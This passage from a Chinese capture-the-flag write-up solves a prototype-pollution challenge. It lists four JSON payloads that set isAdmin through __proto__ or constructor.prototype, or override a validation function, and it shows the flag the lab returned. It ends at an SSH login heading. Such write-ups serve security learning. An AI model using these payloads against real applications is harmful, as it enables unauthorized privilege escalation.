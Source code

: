 这里两个玩法，第一种你过了第一题，下一个FindSomething插件，你会发现有一个PATH`/admin/flag`，一看就有问题好吧，那里会直接获得ssh的用户和密码（要做一题拿个admin的cookie）

第二种就是老老实实的

- **关卡 1: 基础原型污染**

```json
{
  "__proto__": {
    "isAdmin": true
  }
}
```

- **关卡 2: 绕过简单防护**

```json
{
  "constructor": {
    "prototype": {
      "isAdmin": true
    }
  }
}
```

- **关卡 3: 多层原型污染**

```json
{
  "a": {
    "__proto__": {
      "isAdmin": true
    }
  }
}
```

- **关卡 4: 动态验证绕过**

```json
{
  "validateAccess": "function() { return true; }"
}
```

*ps:这不像原型链污染，反而很像不安全反序列化*

成功完成所有关卡后，应用返回凭证信息：

>挑战成功!
>
>你的Flag是: **{hungry:imveryhungry}**
>
>恭喜你完成了挑战！

### SSH 登录
